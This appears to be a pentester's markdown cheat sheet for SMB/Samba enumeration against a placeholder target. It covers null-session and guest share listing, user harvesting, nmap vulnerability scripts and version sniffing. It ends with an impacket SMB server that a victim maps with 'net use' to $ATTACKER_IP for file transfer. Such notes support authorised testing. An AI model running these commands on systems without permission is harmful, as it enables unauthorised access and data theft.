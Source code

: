 
Enumerate with empty / guest credentials:
---
#cme #crackmapexec #smb #shares #samba

Put IP after protocol or the CME crashes!
---

Enumerate SAMBA shares without specifying user:
#null-session 
```bash
crackmapexec smb $TARGET_IP -u '' -p '' --shares
```

or using "guest" user

```bash
crackmapexec smb $TARGET_IP -u 'guest' -p '' --shares
```

try again with a non-existing username

```shell
crackmapexec smb $TARGET_IP -u 'NonExistingUser' -p '' --shares
```
Enumerate users:
```sh
crackmapexec smb $TARGET_IP -u $USER -p $PASS --users > users.txt
cat users.txt | awk '{print $5}' | grep $TARGET_AD > users.txt
#strip users from domain
cat users.txt | awk 'BEGIN{ FS = "\\"} ; {print $2}' > users
```

Connect to IP to share backups:
---
#smb #samba #share #shares

```bash
smbclient \\\\$TARGET_IP\\backups -U ''
```

```bash
smbclient -L $TARGET_IP -U $TARGET_USER
```

null user and password:
#null-session #
```bash
smbclient -L $TARGET_IP -N
```

```bash
smbclient  \\\\$TARGET_IP\\Public -N
```

**ENUMERATE SMB shares, users…:**
---
#enum #shares #smb #samba #enum4linux

Can show potential users as well in linux as well

```bash
enum4linux $TARGET_IP
```

Show SMB Shares:
---
#smbmap #smb #shares #samba

```bash
smbmap -H $TARGET_IP -u ""
```

```bash
nbtscan $TARGET_IP -f scan-result.txt
```

**Using NMAP scripts -- not usually useful:**
---
#nmap #samba #smb #enumeration #enum 

```bash
nmap -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse $TARGET_IP
```

```bash
nmap -p 139,445 --script=smb-enum-* $TARGET_IP
```

```bash
nmap -sS --script=smb-enum-shares $TARGET_IP
```

```bash
nmap --script=smb-vuln-* $TARGET_IP
```

Get SMB Version:
---
#samba #version #smb 
On terminal 1:
```
sudo tcpdump -s0 -n -i eth0 src $TARGET_IP and port 139 -A -c 10 2>/dev/null > cap.txt
```

On terminal 2:
```bash
smbclient -L $TARGET_IP
```

Parse output:
```bash
cat cap.txt | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n'
```

```bash
cat cap.txt | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'Samba.*[0-9a-z]' | tr -d '\n'
```

Create/Spin SMB server
---
#smb-server
```bash
#access on windows with \\$LOCAL_IP\s\$FILENAME
impacket-smbserver -smb2support s .
```
or if anonymous SMB access is disabled:

```bash
impacket-smbserver -smb2support -user test -password test test `pwd`
```

```powershell
net use z: \\$ATTACKER_IP\test /user:test test
```